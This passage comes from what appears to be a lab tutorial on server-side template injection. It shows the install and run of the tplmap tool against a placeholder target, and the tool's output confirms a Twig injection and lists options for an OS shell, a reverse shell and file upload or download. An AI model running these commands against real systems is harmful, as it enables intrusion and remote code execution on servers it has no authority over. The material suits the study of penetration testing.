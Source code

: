 * [PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [HackTricks - SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

We could have automated the template engine identification process we just executed through [tplmap](https://github.com/epinna/tplmap), as follows. If you didn't notice, the user's input is submitted via the `name` parameter and through a POST request (hence the `-d` parameter in `tplmap`).

**tplmap.py**

SSTI Exploitation Example 1

```shell-session
AIceBear@htb[/htb]$ git clone https://github.com/epinna/tplmap.git
AIceBear@htb[/htb]$ cd tplmap
AIceBear@htb[/htb]$ pip install virtualenv
AIceBear@htb[/htb]$ virtualenv -p python2 venv
AIceBear@htb[/htb]$ source venv/bin/activate
AIceBear@htb[/htb]$ pip install -r requirements.txt
AIceBear@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```
